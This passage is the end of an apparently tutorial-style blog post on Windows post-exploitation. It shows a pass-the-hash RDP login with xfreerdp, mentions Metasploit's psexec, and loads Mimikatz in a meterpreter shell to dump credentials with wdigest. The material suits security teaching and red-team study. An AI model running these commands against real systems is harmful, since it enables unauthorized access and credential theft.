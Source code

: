 Metasploit also have psexec, search for it set options  and exploit it.

You will also can get rdp access using hash.

**xfreerdp**

Check xfreerdp in your system or install it.

```
xfreerdp --help
```

And use pass the hash technique

```
xfreerdp /u:victim /d:Target /pth: <HASH> /v:<victimIP>
```
We can also use [Mimikatz](https://github.com/gentilkiwi/mimikatz) which allow us to to extract plaintext password, Kerberos tickets, perform pass-the-hash attacks and much more.

You can also load it on meterpreter shell
```
load mimikatz
```
And run
```
wdigest
```






## Conclusion

**_In this blogpost we have discussed some basic windows post exploitation techniques, more we will learn in Red Teaming series_**



